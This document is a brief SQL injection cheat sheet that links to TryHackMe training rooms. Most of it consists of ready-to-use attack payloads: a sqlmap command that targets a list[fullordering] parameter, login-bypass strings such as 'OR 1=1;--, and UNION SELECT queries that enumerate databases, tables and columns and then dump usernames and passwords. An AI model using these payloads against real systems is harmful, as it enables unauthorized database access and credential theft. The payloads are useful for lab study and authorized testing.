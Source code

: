 # SQL Injection
https://tryhackme.com/room/sqlinjectionlm

## SQLMap
https://tryhackme.com/room/sqlmap
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

## Auth Bypass
'OR 1=1;--
'OR 1=1#

## Union SQLi
Find database name
0 UNION SELECT 1,2,3
0 UNION SELECT 1,2,database()

Find table names
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dbname'

Find columns
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'tbname'

Get contents
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
